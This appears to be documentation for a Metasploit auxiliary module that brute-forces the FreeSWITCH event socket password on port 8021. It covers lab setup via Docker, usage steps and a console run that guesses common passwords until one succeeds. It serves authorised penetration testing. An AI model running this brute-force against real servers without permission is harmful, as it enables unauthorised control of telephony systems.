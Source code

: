 ## Description

This module is a login utility to find the password of the FreeSWITCH event socket service by bruteforcing the login interface. Note that this service does not require a username to log in; login is done purely via supplying a valid password.

This service is enabled by default and listens on TCP port 8021 on the local network interface.

## Vulnerable Application
[FreeSWITCH](https://freeswitch.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

The [Event Socket](https://freeswitch.org/confluence/display/FREESWITCH/mod_event_socket) `mod_event_socket` is a TCP based interface to control FreeSWITCH and is enabled by default.

This module has been tested successfully on FreeSWITCH versions:
* 1.10.7-release-19-883d2cb662~64bit on Debian 10.11 (buster)

Source and Installers:
* [Source Code Repository](https://github.com/signalwire/freeswitch)
* [Installers](https://freeswitch.org/confluence/display/FREESWITCH/Installation)
* [Virtual Machine](https://freeswitch.com/index.php/fs-virtual-machine/)
* [Docker](https://github.com/drachtio/docker-drachtio-freeswitch-mrf)

Docker installation:
```
docker pull drachtio/drachtio-freeswitch-mrf
docker run -d --rm --name FS1 --net=host \
-v /home/deploy/log:/usr/local/freeswitch/log  \
-v /home/deploy/sounds:/usr/local/freeswitch/sounds \
-v /home/deploy/recordings:/usr/local/freeswitch/recordings \
drachtio/drachtio-freeswitch-mrf freeswitch --sip-port 5038 --tls-port 5039 --rtp-range-start 20000 --rtp-range-end 21000 --password hunter
```

## Verification Steps
1. Do: `use auxiliary/scanner/misc/freeswitch_event_socket_login`
2. Do: `set RHOSTS [ips]`
3. Do: `set PASS_FILE /home/kali/passwords.txt`
4. Do: `run`

## Options
### PASS_FILE
The file containing a list of passwords to try logging in with.

## Scenarios
### FreeSWITCH 1.10.7 Linux Debian 10.11 (Docker Image)
```
msf6 > use auxiliary/scanner/misc/freeswitch_event_socket_login
msf6 auxiliary(scanner/misc/freeswitch_event_socket_login) > set RHOSTS 192.168.56.1
RHOSTS => 192.168.56.1
msf6 auxiliary(scanner/misc/freeswitch_event_socket_login) > set PASS_FILE /home/kali/passwords.txt
PASS_FILE => /home/kali/passwords.txt
msf6 auxiliary(scanner/misc/freeswitch_event_socket_login) > run

[!] 192.168.56.1:8021        - No active DB -- Credential data will not be saved!
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: ClueCon (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: admin (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 123456 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 12345 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 123456789 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: password (Incorrect: -ERR invalid)
[+] 192.168.56.1:8021        - 192.168.56.1:8021 - Login Successful: hunter (Successful: +OK accepted)
[*] 192.168.56.1:8021        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
